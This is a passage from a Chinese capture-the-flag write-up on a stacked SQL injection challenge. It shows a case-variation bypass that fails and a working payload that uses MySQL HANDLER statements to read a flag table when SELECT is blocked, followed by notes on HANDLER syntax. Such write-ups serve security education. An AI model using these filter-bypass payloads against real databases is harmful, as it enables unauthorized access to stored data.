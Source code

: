 <h5><a id="5_51"></a>5、尝试<code>大小写绕过</code></h5> 
<p>依旧被ban</p> 
<pre data-index="4" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//3c6e5317-cd37-4cee-9e1f-7ffdea4f0191.node3.buuoj.cn/?inject=1'；SelEct*from FlagHere;#</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/20210524212800221.png#pic_center" alt="在这里插入图片描述"></p> 
<h5><a id="6wpHandler_61"></a>6、传统方法行不通，看别人的wp中提到了<code>Handler</code></h5> 
<pre data-index="5" class="prettyprint"><code class="prism language-php has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;">http<span class="token punctuation">:</span><span class="token comment">//3c6e5317-cd37-4cee-9e1f-7ffdea4f0191.node3.buuoj.cn/?inject=1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li></ul></pre> 
<p>cat flag</p> 
<p><img src="https://img-blog.csdnimg.cn/20210524212807653.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUxOTI3NjU5,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"></p> 
<h2><a name="t4"></a><a id="3Handler_71"></a>3、Handler语法</h2> 
<blockquote> 
 <p>handler语句，一行一行的浏览一个表中的数据</p> 
 <p>handler语句并不具备select语句的所有功能。</p> 
 <p>mysql专用的语句，并没有包含到SQL标准中。<br> HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。</p> 
</blockquote> 
<p>1、<code>HANDLER tbl_name OPEN</code></p> 
<p>打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。</p> 
<p>2、<code>HANDLER tbl_name READ FIRST</code></p> 
<p>获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。</p> 
<p>3、<code>HANDLER tbl_name CLOSE</code></p> 
<p>关闭打开的句柄。</p> 
<p>4、<code>HANDLER tbl_name READ index_name = value</code></p> 
<p>通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。</p>
                </div>